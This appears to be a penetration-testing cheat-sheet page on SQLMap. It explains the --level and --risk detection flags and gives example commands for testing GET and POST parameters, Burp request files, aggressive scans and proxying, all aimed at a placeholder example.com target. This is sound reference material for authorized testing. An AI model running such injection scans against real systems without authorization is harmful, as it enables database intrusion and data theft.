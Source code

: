 # SQLMap

## Commands

{% tabs %}
{% tab title="Flush Session" %}
```bash
sqlmap --flush-session
```
{% endtab %}
{% endtabs %}

### Detection

The `--level` flag affects which payload sqlmap tries and which injections points are tested, while the `--risk` flag adds more SQLi types.

<table><thead><tr><th width="107">Value</th><th>Level (1-5)</th><th>Risk (1-3)</th></tr></thead><tbody><tr><td>1</td><td><code>GET</code> and <code>POST</code> parameters are <strong>always</strong> tested (default value)</td><td>Innocuous for the majority of SQLi points (default value).</td></tr><tr><td>2</td><td>HTTP Cookie header values.</td><td>Adds heavy query time-based SQLis.</td></tr><tr><td>3</td><td>HTTP User-Agent/Referer headers values.</td><td>Adds <code>OR</code>-based SQLis.</td></tr></tbody></table>

{% tabs %}
{% tab title="URL (GET)" %}
```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -v 0
```
{% endtab %}

{% tab title="URL (POST)" %}
{% code overflow="wrap" %}
```bash
sqlmap -u "http://www.example.com/vuln.php"  --data "param=value" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="File" %}
```bash
sqlmap -r burp.req --batch -v 0
```
{% endtab %}

{% tab title="Aggresive" %}
```bash
sqlmap -r burp.req --batch -v 0 --level=5 --risk=3
```
{% endtab %}

{% tab title="Proxy" %}
```bash
sqlmap -r burp.req --batch -v 0 --proxy http://127.0.0.1:8080
```
{% endtab %}
{% endtabs %}
